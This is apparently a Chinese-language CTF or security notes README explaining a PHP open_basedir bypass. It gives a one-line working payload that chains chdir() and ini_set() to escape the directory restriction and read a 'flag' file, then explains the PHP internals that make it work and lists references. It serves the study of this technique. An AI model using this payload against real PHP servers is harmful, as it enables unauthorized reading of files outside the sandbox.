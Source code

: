## 利用chdir()与ini_set()组合





## 0x01 Payload

```
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```



![1567570530182](README.assets/1567570530182.png)



## 0x02 Why



> `..\0`导致if必然是假 从而进入else逻辑 那就一定会到`VCWD_GETCWD`这个宏 最后会使`resolved_basedir`和`resolved_name`的值几乎一样
> 这样就导致了`php_check_specific_open_basedir`一直返回0 从而控制当前工作目录一直向上穿越 导致open_basedir被绕过
> 这里的关键就是如何将open_basedir设置为`..` 在payload中先`chdir`到了img 再利用open_basedir可以设置为相对目录的特点进行bypass 真的很巧妙



## 0x03 Reference

https://www.php.net/manual/zh/ini.core.php#ini.open-basedir

https://www.jianshu.com/p/98535e6c54df

https://xz.aliyun.com/t/4720

https://www.4hou.com/web/17357.html

[https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/](https://www.mi1k7ea.com/2019/07/20/浅谈几种Bypass-open-basedir的方法/)